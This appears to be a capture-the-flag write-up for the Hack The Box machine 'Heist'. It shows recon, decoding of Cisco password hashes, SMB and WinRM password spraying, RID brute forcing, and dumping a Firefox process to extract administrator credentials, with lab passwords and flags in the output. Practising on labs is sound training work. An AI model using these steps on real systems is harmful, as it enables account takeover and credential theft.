

Intro

[[windows]] [[processdump]] [[NotAssumedBreach]] [[OSCPpath]]
Tags: #windows #NotAssumedBreach #processdump #OSCPpath
Tools used:
- smbclient
- rcpclient
- nxc
- procdump
Reconnaissance
Identify open TCP ports fast
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-13 19:15 UTC
Nmap scan report for heist.htb (10.129.96.157)
Host is up (0.076s latency).
Not shown: 65530 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
80/tcp open http
135/tcp open msrpc
445/tcp open microsoft-ds
5985/tcp open wsman
49669/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 26.63 seconds
According to these open ports, like port 88 for example its clear that the target is a DC
Scan specific open TCP ports
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-13 19:16 UTC
Nmap scan report for heist.htb (10.129.96.157)
Host is up (0.048s latency).
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds?
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open msrpc Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2026-03-13T19:17:45
|_ start_date: N/A
|_clock-skew: -12s
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
TRACEROUTE (using port 135/tcp)
HOP RTT ADDRESS
1 47.26 ms 10.10.14.1
2 48.64 ms heist.htb (10.129.96.157)
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.13 seconds
Enumeration
RPC
Anonymous
also via oneliner
was not successful
SMB
Anonymous
General info
SMB 10.129.96.157 445 SUPPORTDESK [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
Shares
was not successful
Guest
Shares
was not successful
WebApp
Guest login
cant login with default creds with admin admin
i can login as guest instead, and then i am redirected to /issues.php, then opened attachment
File found
it appears to be a cisco router configuration
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
synchronization
bgp log-neighbor-changes
bgp dampening
network 192.168.0.0Â mask 300.255.255.0
timers bgp 3 9
redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
session-timeout 600
authorization exec SSH
transport input ssh
creds obtained
i also saw this
indicates that the router is using a Type 5 “enable secret,” which is an MD5-based hash
also found this user
and on the webpage this user tells the admin to create an account for him on the windows server
Cracking MD5 hash
cracked successfully
but now what? well then i used this cisco password cracker
https://www.ifm.net.nz/cookbooks/passwordcracker.html
Decrypting cisco configuration hashes
creds obtained
0242114B0E143F015F5D1E161713 -> $uperP@ssword
02375012182C1A1D751618034F36415408 -> Q4)sJu\Y8qz*A3?d
Password spraying
now lets create these lists of passwords and users:
SMB 10.129.96.157 445 SUPPORTDESK [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB 10.129.96.157 445 SUPPORTDESK [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE
SMB 10.129.96.157 445 SUPPORTDESK [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE
SMB 10.129.96.157 445 SUPPORTDESK [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE
SMB 10.129.96.157 445 SUPPORTDESK [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB 10.129.96.157 445 SUPPORTDESK [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB 10.129.96.157 445 SUPPORTDESK [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB 10.129.96.157 445 SUPPORTDESK [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE
SMB 10.129.96.157 445 SUPPORTDESK [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE
SMB 10.129.96.157 445 SUPPORTDESK [+] SupportDesk\hazard:stealth1agent
success for these creds
Checking creds validity against services
lets now try to check to which service's we can connect with those creds, using my automated nxc script
https://github.com/ch3ckkm8/auto_netexec
[*] Checking if winrm port 5985 is open on heist.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM 10.129.96.157 5985 SUPPORTDESK [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
WINRM 10.129.96.157 5985 SUPPORTDESK [-] SupportDesk\hazard:stealth1agent
[*] Checking if smb port 445 is open on heist.htb...
[+] Port 445 open — checking smb with netexec
SMB 10.129.96.157 445 SUPPORTDESK [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB 10.129.96.157 445 SUPPORTDESK [+] SupportDesk\hazard:stealth1agent
[*] Checking if ldap port 389 is open on heist.htb...
[-] Skipping ldap — port 389 is closed
[*] Checking if rdp port 3389 is open on heist.htb...
[-] Skipping rdp — port 3389 is closed
[*] Checking if wmi port 135 is open on heist.htb...
[+] Port 135 open — checking wmi with netexec
RPC 10.129.96.157 135 SUPPORTDESK [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
RPC 10.129.96.157 135 SUPPORTDESK [+] SupportDesk\hazard:stealth1agent
[*] Checking if nfs port 2049 is open on heist.htb...
[-] Skipping nfs — port 2049 is closed
[*] Checking if ssh port 22 is open on heist.htb...
[-] Skipping ssh — port 22 is closed
[*] Checking if vnc port 5900 is open on heist.htb...
[-] Skipping vnc — port 5900 is closed
[*] Checking if ftp port 21 is open on heist.htb...
[-] Skipping ftp — port 21 is closed
[*] Checking if mssql port 1433 is open on heist.htb...
[-] Skipping mssql — port 1433 is closed
this user can connect towards
SMB, RPC
SMB enum as hazard
SMB 10.129.96.157 445 SUPPORTDESK [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB 10.129.96.157 445 SUPPORTDESK [+] SupportDesk\hazard:stealth1agent
SMB 10.129.96.157 445 SUPPORTDESK [*] Enumerated shares
SMB 10.129.96.157 445 SUPPORTDESK Share Permissions Remark
SMB 10.129.96.157 445 SUPPORTDESK ----- ----------- ------
SMB 10.129.96.157 445 SUPPORTDESK ADMIN$ Remote Admin
SMB 10.129.96.157 445 SUPPORTDESK C$ Default share
SMB 10.129.96.157 445 SUPPORTDESK IPC$ READ Remote IPC
Downloading SMB shares
nxc smb heist.htb -u hazard -p stealth1agent --spider C$
nxc smb heist.htb -u hazard -p stealth1agent --spider ADMIN$
nxc smb heist.htb -u hazard -p stealth1agent --spider IPC$
nxc smb heist.htb -u 'hazard' -p 'stealth1agent' -M spider_plus -o DOWNLOAD_FLAG=True
nxc smb heist.htb -u 'hazard' -p 'stealth1agent' -M spider_plus
└─$ smbclient //heist.htb/IPC$ -U hazard%'stealth1agent'
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_NO_SUCH_FILE listing \*
RPC enum as user hazard
└─$ rpcclient -U 'hazard%stealth1agent' heist.htb
rpcclient $> enumdomgroups
result was NT_STATUS_CONNECTION_DISCONNECTED
rpcclient $> enumdomusers
result was NT_STATUS_CONNECTION_DISCONNECTED
cant run commands
Foothold
Finding valid users
RID brute force
SMB 10.129.96.157 445 SUPPORTDESK [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB 10.129.96.157 445 SUPPORTDESK [+] SupportDesk\hazard:stealth1agent
SMB 10.129.96.157 445 SUPPORTDESK 500: SUPPORTDESK\Administrator (SidTypeUser)
SMB 10.129.96.157 445 SUPPORTDESK 501: SUPPORTDESK\Guest (SidTypeUser)
SMB 10.129.96.157 445 SUPPORTDESK 503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB 10.129.96.157 445 SUPPORTDESK 504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB 10.129.96.157 445 SUPPORTDESK 513: SUPPORTDESK\None (SidTypeGroup)
SMB 10.129.96.157 445 SUPPORTDESK 1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB 10.129.96.157 445 SUPPORTDESK 1009: SUPPORTDESK\support (SidTypeUser)
SMB 10.129.96.157 445 SUPPORTDESK 1012: SUPPORTDESK\Chase (SidTypeUser)
SMB 10.129.96.157 445 SUPPORTDESK 1013: SUPPORTDESK\Jason (SidTypeUser)
now lets update our list of users with the ones we found here and try all combinations again with the password we have gathered
WINRM 10.129.96.157 5985 SUPPORTDESK [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
arc4 = algorithms.ARC4(self._key)
WINRM 10.129.96.157 5985 SUPPORTDESK [-] SupportDesk\guest:$uperP@ssword
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
arc4 = algorithms.ARC4(self._key)
WINRM 10.129.96.157 5985 SUPPORTDESK [-] SupportDesk\chase:$uperP@ssword
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
arc4 = algorithms.ARC4(self._key)
WINRM 10.129.96.157 5985 SUPPORTDESK [-] SupportDesk\jason:$uperP@ssword
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
arc4 = algorithms.ARC4(self._key)
WINRM 10.129.96.157 5985 SUPPORTDESK [-] SupportDesk\support:$uperP@ssword
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
arc4 = algorithms.ARC4(self._key)
WINRM 10.129.96.157 5985 SUPPORTDESK [-] SupportDesk\rout3r:$uperP@ssword
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
arc4 = algorithms.ARC4(self._key)
WINRM 10.129.96.157 5985 SUPPORTDESK [-] SupportDesk\admin:$uperP@ssword
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
arc4 = algorithms.ARC4(self._key)
WINRM 10.129.96.157 5985 SUPPORTDESK [-] SupportDesk\hazard:$uperP@ssword
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
arc4 = algorithms.ARC4(self._key)
WINRM 10.129.96.157 5985 SUPPORTDESK [-] SupportDesk\guest:Q4)sJu\Y8qz*A3?d
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
arc4 = algorithms.ARC4(self._key)
WINRM 10.129.96.157 5985 SUPPORTDESK [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
success! we can login as chase via winrm
WinRM as user (chase)
logged in and grabbed user flag
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents> cd ..
*Evil-WinRM* PS C:\Users\Chase> cd Desktop
*Evil-WinRM* PS C:\Users\Chase\Desktop> type user.txt
654a9ad10864cf1c55aed2be1b24d228
*Evil-WinRM* PS C:\Users\Chase\Desktop> whoami
supportdesk\chase
Privesc
Privileges
*Evil-WinRM* PS C:\Users\Chase\Desktop> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== =======
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
winpeas
in winpeas, this stood out to me
Filesystem enum
found a todo file
*Evil-WinRM* PS C:\Users\Chase\Desktop> type todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.
Done:
1. Restricted access for guest user.
then i also remembered, to check the webapps directory, and started with /issues.php
inside the php file i found this
<!DOCTYPE html>
<?php
session_start();
if( isset($_SESSION['admin']) || isset($_SESSION['guest']) ) {
if( $_SESSION['admin'] === "valid" || $_SESSION['guest'] === "valid" ) {
?>
<html lang="en" >
then inspected
login.php<?php
session_start();
if( isset($_REQUEST['login']) && !empty($_REQUEST['login_username']) && !empty($_REQUEST['login_password'])) {
if( $_REQUEST['login_username'] === 'admin@support.htb' && hash( 'sha256', $_REQUEST['login_password']) === '91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040') {
$_SESSION['admin'] = "valid";
header('Location: issues.php');
}
else
header('Location: errorpage.php');
}
else if( isset($_GET['guest']) ) {
if( $_GET['guest'] === 'true' ) {
$_SESSION['guest'] = "valid";
header('Location: issues.php');
}
}
?>
thats some usefull info!
Dump processes
from the processes shown, i found firefox running and it stood out to me
Handles NPM(K) PM(K) WS(K) CPU(s) Id SI ProcessName
------- ------ ----- ----- ------ -- -- -----------
1495 58 23684 78256 4308 1 explorer
1071 70 147164 223348 3.38 6352 1 firefox
347 19 10220 38732 0.05 6460 1 firefox
401 33 31160 88552 0.41 6584 1 firefox
378 28 21788 58504 0.20 6828 1 firefox
355 25 16440 38980 0.05 7112 1 firefox
lets use procdump, upload it directly via evil-winrm
or manually
but before using it, lets view the pids of the firefox processes
the pid is the 3rd column from the right
1075 70 147484 223852 3.38 6352 1 firefox
347 19 10220 38732 0.05 6460 1 firefox
401 33 31172 88920 0.41 6584 1 firefox
378 28 21816 58532 0.20 6828 1 firefox
355 25 16440 38980 0.05 7112 1 firefox
now run for one of those pids:
ProcDump v11.1 - Sysinternals process dump utility
Copyright (C) 2009-2025 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com
[02:07:46]Dump 1 info: Available space: 3748245504
[02:07:46]Dump 1 initiated: C:\Users\Chase\firefox.exe_260314_020746.dmp
[02:07:46]Dump 1 writing: Estimated dump file size is 288 MB.
[02:07:48]Dump 1 complete: 288 MB written in 1.6 seconds
[02:07:48]Dump count reached.
download the .dmp file directly from winrm
or transfer from windows target towards attacker:
attacker
target
or
Inspecting the DMP file
lets search for strings with keyword admin
└─$ strings firefox.exe_260314_020746.dmp | grep login_password
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
creds obtained
WinRM as administrator
in cmd
echo User: %USERNAME% && echo Hostname: %COMPUTERNAME% && echo Whoami: && whoami && ipconfig /all && echo Root.txt Content: && type "C:\Users\Administrator\Desktop\root.txt"
or in powershell (comma separated)
echo "User: $env:USERNAME"; echo "Hostname: $env:COMPUTERNAME"; whoami; ipconfig /all; type "C:\Users\Administrator\Desktop\root.txt"
User: Administrator
Hostname: SUPPORTDESK
supportdesk\administrator
Windows IP Configuration
Host Name . . . . . . . . . . . . : SupportDesk
Primary Dns Suffix . . . . . . . :
Node Type . . . . . . . . . . . . : Hybrid
IP Routing Enabled. . . . . . . . : No
WINS Proxy Enabled. . . . . . . . : No
DNS Suffix Search List. . . . . . : htb
Ethernet adapter Ethernet0 2:
Connection-specific DNS Suffix . : .htb
Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
Physical Address. . . . . . . . . : 00-50-56-94-C1-59
DHCP Enabled. . . . . . . . . . . : Yes
Autoconfiguration Enabled . . . . : Yes
IPv6 Address. . . . . . . . . . . : dead:beef::1cf(Preferred)
Lease Obtained. . . . . . . . . . : Saturday, March 14, 2026 12:40:16 AM
Lease Expires . . . . . . . . . . : Saturday, March 14, 2026 3:10:16 AM
IPv6 Address. . . . . . . . . . . : dead:beef::a964:85d2:1752:11f5(Preferred)
Link-local IPv6 Address . . . . . : fe80::a964:85d2:1752:11f5%15(Preferred)
IPv4 Address. . . . . . . . . . . : 10.129.96.157(Preferred)
Subnet Mask . . . . . . . . . . . : 255.255.0.0
Lease Obtained. . . . . . . . . . : Saturday, March 14, 2026 12:40:17 AM
Lease Expires . . . . . . . . . . : Saturday, March 14, 2026 3:10:17 AM
Default Gateway . . . . . . . . . : fe80::250:56ff:fe94:9b51%15
10.129.0.1
DHCP Server . . . . . . . . . . . : 10.10.10.2
DHCPv6 IAID . . . . . . . . . . . : 268456022
DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-31-46-19-6F-00-50-56-94-C1-59
DNS Servers . . . . . . . . . . . : 10.10.10.2
NetBIOS over Tcpip. . . . . . . . : Enabled
Connection-specific DNS Suffix Search List :
htb
e01988779ad34fc43519dc971b3a9b6b
Summary
Reconnaissance
1. Nmap scan → open ports: 80 (IIS/PHP web), 135 (RPC), 445 (SMB), 5985 (WinRM)
2. Guest login on port 80 webapp → exposed Cisco router config
3. Cracked MD5 + decoded Type 7 passwords → stealth1agent, $uperP@ssword, Q4)sJu\Y8qz*A3?d
4. Password spray via SMB → hazard:stealth1agent valid
5. RID brute force as hazard → discovered Chase, Jason, support
Foothold
6. Password spray via WinRM → chase:Q4)sJu\Y8qz*A3?d valid → user flag
Privesc
7. Process enum as Chase → Firefox running as Administrator (session 1)
8. Procdump Firefox PID → memory dump contains plaintext creds in URL args
9. WinRM as Administrator → root flag
| # | inputs | action | results |
|---|---|---|---|
| 1 | target | nmap | port 80, port 135, port 445 |
| 2 | port 80 | login | guest |
| 3 | guest | found | file1, user1 |
| 4 | file1 | read | user2, user3, hashes, MD5 |
| 5 | MD5 | crack | pass1 |
| 6 | pass1, hashes | decrypt | pass1, pass2 |
| 7 | pass1, pass2, pass3, user1, user2, user3 | rid-brute-force | valid_domain_users1 |
| 8 | valid_domain_users1, pass1, pass2, pass3 | spraying | valid_creds1 |
| 9 | valid_creds1 | creds_vs_services | SMB1, RPC1 |
| 10 | SMB1 | rid-brute-force | valid_domain_users2 |
| 11 | valid_domain_users2, pass1, pass2, pass3 | spraying | WINRM1 |

Sidenotes
The highlights of this one were the process enumeration and the assumption that administrator runs some processes, along with the process dump in order to find admin creds